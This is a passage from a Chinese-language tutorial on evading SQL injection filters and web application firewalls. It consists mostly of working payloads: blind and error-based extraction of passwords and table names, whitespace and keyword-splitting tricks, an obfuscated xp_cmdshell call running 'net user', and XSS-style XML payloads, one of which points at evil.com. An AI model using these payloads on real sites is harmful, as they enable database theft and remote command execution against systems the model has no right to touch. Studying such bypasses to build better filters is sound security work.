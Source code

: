 举例：`substring()`和`substr()`无法使用时:`?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74`

或者：`substr((select 'password'),1,1) = 0x70`

　　　`strcmp(left('password',1), 0x69) = 1`

　　  `strcmp(left('password',1), 0x70) = 0`

　　 `strcmp(left('password',1), 0x71) = -1`

上述这几个示例用于说明有时候当某个函数不能使用时，还可以找到其他的函数替代其实现，置于`select`、`uinon`、`where`等关键字被限制如何处理将在后面filter部分讨论

2.符号

`and`和`or`有可能不能使用，或者可以试下`&&`和`||`能不能用；还有`=`不能使用的情况，可以考虑尝试`<`、`>`，因为如果不小于又不大于，那边是等于了

在看一下用得多的空格，可以使用如下符号表示其作用：`%20 %09 %0a %0b %0c %0d %a0 /**/`

3.生僻函数

MySQL/PostgreSQL支持XML函数：`Select UpdateXML(‘<script x=_></script> ’,’/script/@x/’,’src=//evil.com’);`　　　　　　　　

`?id=1 and 1=(updatexml(1,concat(0x3a,(select user())),1))`

`SELECT xmlelement(name img,xmlattributes(1as src,'a\l\x65rt(1)'as \117n\x65rror));　//postgresql`

`?id=1 and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables limit 1)));`

MySQL、PostgreSQL、Oracle它们都有许多自己的函数，基于黑名单的filter要想涵盖这么多东西从实际上来说不太可能，而且代价太大，看来黑名单技术到一定程度便遇到了限制

 

### f) 特殊符号

这里我把非字母数字的字符都规在了特殊符号一类，特殊符号有特殊的含义和用法，涉及信息量比前面提到的几种都要多

先看下乌云drops上“waf的绕过技巧”一文使用的几个例子：

1.使用反引号\`，例如select \`version()`，可以用来过空格和正则，特殊情况下还可以将其做注释符用

2.神奇的`"-+."，select+id-1+1.from users;` “+”是用于字符串连接的，”-”和”.”在此也用于连接，可以逃过空格和关键字过滤

3.@符号，`select@^1.from users;` @用于变量定义如@var_name，一个@表示用户定义，@@表示系统变量

4.Mysql function() as xxx  也可不用as和空格 `select-count(id)test from users;`  //绕过空格限制

可见，使用这些字符的确是能做很多事，也证实了那句老话，只有想不到，没有做不到

本人搜罗了部分可能发挥大作用的字符(未包括'、*、/等在内，考虑到前面已经出现较多次了)：``、~、!、@、%、()、[]、.、-、+ 、|、%00`

举例：

关键字拆分：`‘se’+’lec’+’t’`

　　　　　　`%S%E%L%E%C%T 1`

　　　　　　`1.aspx?id=1;EXEC(‘ma’+'ster..x’+'p_cm’+'dsh’+'ell ”net user”’)`

`!`和()：`' or --+2=- -!!!'2`

 　　　 `id=1+(UnI)(oN)+(SeL)(EcT)`　//另 Access中,”[]”用于表和列,”()”用于数值也可以做分隔
